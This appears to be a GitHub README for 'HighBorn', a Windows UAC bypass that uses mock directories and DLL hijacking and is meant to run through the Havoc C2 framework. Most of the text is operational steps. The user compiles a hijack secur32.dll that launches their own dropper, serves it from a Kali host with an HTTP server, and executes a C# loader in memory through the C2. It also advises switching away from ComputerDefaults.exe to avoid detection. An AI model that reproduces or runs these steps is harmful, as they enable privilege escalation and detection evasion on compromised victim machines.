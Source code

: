 Windows UAC Bypass utilizing mock directories and DLL Hijacking. This is a tool that I created to use with the "dotnet inline-execution" command on Havoc C2, but it can be used with any C2 that has in-memory execution. This was just a quick and dirty POC.

**Usage:**

Open the highborn.c file in a text editor on your Kali box.

Replace the file path with the file path of the executable that you want to open (ie your dropper).

Compile HighBorn.c into a dll.

**linux command: "x86_64-w64-mingw32-gcc -shared -o secur32.dll highborn.c -lcomctl32 -Wl,--subsystem,windows**

Host the dll on your Kali box.

command: python3 -m http.server PORT

Compile on Kali

**apt install mono-complete -y
mcs -out:HighBorn.exe Highborn.cs**

Execute on C2

**command: dotnet inline-execute HighBorn.exe**

Replace the ComputerDefaults.exe and secur32.dll with other EXEs and DLLs as you find DLLs that can be hijacked. ComputerDefaults is a popular one is probably monitored pretty closely.
